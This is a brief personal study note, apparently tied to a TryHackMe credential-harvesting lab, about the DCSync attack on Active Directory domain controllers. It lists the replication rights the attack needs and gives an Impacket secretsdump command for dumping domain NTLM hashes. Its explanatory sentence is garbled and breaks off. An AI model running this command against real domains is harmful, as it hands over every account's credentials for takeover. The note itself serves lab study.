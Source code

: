 DC-Sync attack is direct attack on the DC from an account with necessary permissions to force the DC to Synchronise itself with another existent or non-existent -  permissions required:
- ReplicatingDirectory Changes
- ReplicatingDirectory Changes All
- Replicating Directory Changes in Filtered Set

With [[Impacket-Cheatsheet]]
```bash
secretsdump -just-dc $domain/$user@$DC-ip
# For just ntlms 
-just-dc-ntlm 
```

[DC-Sync](https://tryhackme.com/room/credharvesting)